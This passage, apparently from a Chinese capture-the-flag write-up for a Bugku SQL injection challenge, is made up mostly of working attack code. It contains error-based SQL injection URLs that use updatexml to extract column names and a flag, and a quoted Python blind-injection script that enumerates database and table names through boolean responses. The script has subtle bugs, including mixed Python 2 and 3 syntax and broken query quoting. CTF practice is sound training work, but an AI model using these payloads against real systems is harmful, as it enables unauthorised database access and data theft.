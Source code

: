 ```
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name ='flag2'),'~'),3) %23

//查数据
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select flag2 from flag2),'~'),3) %23
//结果  flag{Bugku-sql_6s-2i-4t-bug}  记住flag 为小写
```

[大佬](https://www.jianshu.com/p/ae6e5a885588)写的一个盲注脚本

```
import requests

def length_schema():
    for x in range(1,20):
        url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and length(database())='+str(x)+'%23'
        s = requests.get(url)
        if "Hello" in s.text:
            print ('schema_length is :' + str(x))
            global a
            a = int(x)
            break
        
def schema_name():
    x = 0
    name = ''
    while x < a:
        x = x + 1
        temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~' 
        for i in temp:
            url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and mid(database(),'+ str(x) +',1)=%27'+str(i)+'%27 %23'
            s = requests.get(url)
            if "Hello" in s.text:
                name = name + str(i)

    print ('sechma_name is :' + name)
    global schema_name
    schema_name = name

def all():
    temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~'
    temp_data = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    for x in xrange(0,20):
        table_name = ''
        for y in xrange(1,20):
            key = 0
            for i in temp:
                url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select table_name from information_schema.tables where table_schema=''+schema_name+''limit '+str(x)+',1),'+str(y)+',1))=ascii(\''+str(i)+'\')%23 '
                s = requests.get(url)
                if "Hello" in s.text:
                    key = 1
                    table_name = table_name + str(i)
            if key == 0:
                break
        if table_name == '':
            break
        print ('one of tables is:' + table_name)
```